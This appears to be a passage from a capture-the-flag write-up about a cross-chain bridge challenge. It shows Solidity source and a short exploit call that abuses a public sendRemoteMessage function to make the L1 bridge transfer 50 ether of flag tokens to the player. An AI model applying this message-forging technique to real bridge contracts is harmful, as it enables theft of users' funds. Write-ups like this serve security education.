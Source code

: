     ```js
    function relayMessage(
        address _targetAddress,
        uint256 _sourceChainId,
        address _sourceAddress,
        uint256 _value,
        uint256 _nonce,
        bytes calldata _message
    ) external onlyRelayer {
        ...
        (bool success, bytes memory result) = _targetAddress.call{value: _value}(_message);
        require(success, string(result));
        ...
    }
    ```

- To emit a SendRemoteMessage event, we can call `sendRemoteMessage()` function and the transaction to be executed on the other chain can be customized

    ```js
    function sendRemoteMessage(uint256 _targetChainId, address _targetAddress, bytes calldata _message)
        public
        payable
    {
        require(_targetChainId != block.chainid, "C");
        require(_targetAddress != address(0), "A");
        emit SendRemoteMessage(_targetChainId, _targetAddress, msg.sender, msg.value, msgNonce, _message);
        unchecked {
            ++msgNonce;
        }
    }
    ```

- Since L2 RPC is also provided and the player has some ethers, we can send a remote message from L2 to L1 and transfer tokens from l1Bridge to users

    ```js
    l2Bridge.sendRemoteMessage(
        78704,
        address(flagToken),
        abi.encodeWithSignature(
            "transfer(address,uint256)",
            player,
            50 ether
        )
    )
    ```

- However, [the `sendRemoteMessage()` function is not intended to be public](https://twitter.com/junorouse/status/1719024561885499840) and it is expected to only use `ethOut()` / `ERC20Out()` to transfer funds between chains :< The above is an unintended solution lol
- A `SimpleMultiSigGov` is deployed at 0x31337 on the L2 chain. It can be used to interact with the precompiled contract `ADMIN` at 1337
